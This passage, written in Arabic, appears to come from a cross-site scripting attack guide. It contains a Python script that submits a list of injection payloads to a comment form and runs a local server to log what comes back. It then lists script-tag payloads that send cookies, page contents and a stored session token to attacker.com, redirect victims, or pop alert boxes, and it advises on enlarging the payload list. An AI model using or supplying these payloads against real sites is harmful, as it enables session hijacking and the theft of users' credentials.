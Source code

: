   ```python

  target_url = "https://example.com/submit-comment"
  for payload in payloads:
      try:
          requests.post(target_url, data={"comment": payload})
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن إلى نقطة إدخال (مثل حقل تعليق) عبر طلب POST.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال متعددة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log`.
    - **وحدة التحكم**: تحقق من ظهور تنبيهات أو أخطاء في Console.
    - **تغييرات DOM**: تحقق من إعادة التوجيه أو تعديل الصفحة.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد الحقن الأكثر فعالية.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<iframe src="javascript:alert('XSS')">` أو `[Click](data:text/html,<script>alert('XSS')</script>)`).
  - جرب أحداث أخرى (مثل `onfocus`، `onblur`) أو وسوم أخرى (مثل `<div>`، `<input>`).
  - اختبر صيغ Markdown أخرى (مثل كود مضمن `` `code` `` أو جداول).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<div onclick="fetch('http://attacker.com/log?c='+document.cookie)">Click</div>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن باستخدام وسوم HTML:
- <script>alert('XSS')</script>: ينفذ تنبيهًا عند العرض.
- <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>: يرسل ملفات تعريف الارتباط.
- <script>document.location='http://attacker.com'</script>: يعيد توجيه المستخدم.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>: يرسل محتوى الصفحة.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة.
